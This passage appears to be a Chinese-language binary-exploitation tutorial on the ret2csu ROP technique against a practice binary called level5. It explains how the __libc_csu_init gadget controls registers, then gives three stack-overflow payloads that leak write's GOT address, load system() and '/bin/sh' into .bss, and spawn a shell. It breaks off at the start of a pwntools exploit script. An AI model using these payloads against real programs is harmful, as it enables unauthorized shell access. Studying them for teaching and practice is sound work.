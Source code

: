 ```
  4005f9:   41 ff 14 dc             callq  *(%r12,%rbx,8)
  4005fd:   48 83 c3 01             add    $0x1,%rbx
  400601:   48 39 eb                cmp    %rbp,%rbx
  400604:   75 ea                   jne    4005f0 <__libc_csu_init+0x50>
  400606:   48 8b 5c 24 08          mov    0x8(%rsp),%rbx
  40060b:   48 8b 6c 24 10          mov    0x10(%rsp),%rbp
  400610:   4c 8b 64 24 18          mov    0x18(%rsp),%r12
  400615:   4c 8b 6c 24 20          mov    0x20(%rsp),%r13
  40061a:   4c 8b 74 24 28          mov    0x28(%rsp),%r14
  40061f:   4c 8b 7c 24 30          mov    0x30(%rsp),%r15
  400624:   48 83 c4 38             add    $0x38,%rsp
  400628:   c3                      retq   
```
我们可以看到利用0x400606处的代码我们可以控制rbx,rbp,r12,r13,r14和r15的值，随后利用0x4005f0处的代码我们将r15的值赋值给rdx, r14的值赋值给rsi,r13的值赋值给edi，随后就会调用`call qword ptr [r12+rbx*8]`。这时候我们只要再将rbx的值赋值为0，再通过精心构造栈上的数据，我们就可以控制pc去调用我们想要调用的函数了（比如说write函数）。执行完`call qword ptr [r12+rbx*8]`之后，程序会对rbx+=1，然后对比rbp和rbx的值，如果相等就会继续向下执行并ret到我们想要继续执行的地址。所以为了让rbp和rbx的值相等，我们可以将rbp的值设置为1，因为之前已经将rbx的值设置为0了。大概思路就是这样，我们下来构造ROP链。  

我们先构造payload1，利用write()输出write在内存中的地址。注意我们的gadget是`call qword ptr [r12+rbx*8]`，所以我们应该使用write.got的地址而不是write.plt的地址。并且为了返回到原程序中，重复利用buffer overflow的漏洞，我们需要继续覆盖栈上的数据，直到把返回值覆盖成目标函数的main函数为止。  
```
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=write.got, rdx=4)
payload1 =  "\x00"*136
payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload1 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload1 += "\x00"*56
payload1 += p64(main)
```
当我们exp在收到write()在内存中的地址后，就可以计算出system()在内存中的地址了。接着我们构造payload2，利用read()将system()的地址以及“/bin/sh”读入到.bss段内存中。  
```
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#read(rdi=0, rsi=bss_addr, rdx=16)
payload2 =  "\x00"*136
payload2 += p64(0x400606) + p64(0) + p64(0) + p64(1) + p64(got_read) + p64(0) + p64(bss_addr) + p64(16) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload2 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload2 += "\x00"*56
payload2 += p64(main)
```
最后我们构造payload3,调用system()函数执行“/bin/sh”。注意，system()的地址保存在了.bss段首地址上，“/bin/sh”的地址保存在了.bss段首地址+8字节上。  
```
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#system(rdi = bss_addr+8 = "/bin/sh")
payload3 =  "\x00"*136
payload3 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr+8) + p64(0) + p64(0) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload3 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload3 += "\x00"*56
payload3 += p64(main)
```
最终exp如下：  
``` python
#!/usr/bin/env python
from pwn import *

elf = ELF('level5')
libc = ELF('libc.so.6')

p = process('./level5')
#p = remote('127.0.0.1',10001)

got_write = elf.got['write']
```